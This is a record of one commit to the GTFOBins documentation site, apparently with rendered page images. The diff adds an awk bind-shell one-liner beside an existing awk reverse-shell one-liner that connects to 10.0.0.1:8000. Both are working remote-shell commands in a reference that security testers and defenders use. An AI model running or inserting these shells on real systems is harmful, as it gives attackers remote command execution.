

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/awk.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 981 px from its top, so only the background shows below that.

Commit message:
Add awk bind shell

```diff
--- a/_gtfobins/awk.md
+++ b/_gtfobins/awk.md
@@ -12,4 +12,9 @@ functions:
         RHOST=10.0.0.1
         RPORT=8000
         awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
+  bind-shell:
+    - description: Run `nc 10.0.0.1 8000` to connect to the shell on the other end.
+      code: |
+        LPORT=8000
+        awk -v LPORT=$LPORT 'BEGIN {s = "/inet/tcp/" LPORT "/0/0"; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
 ---
```
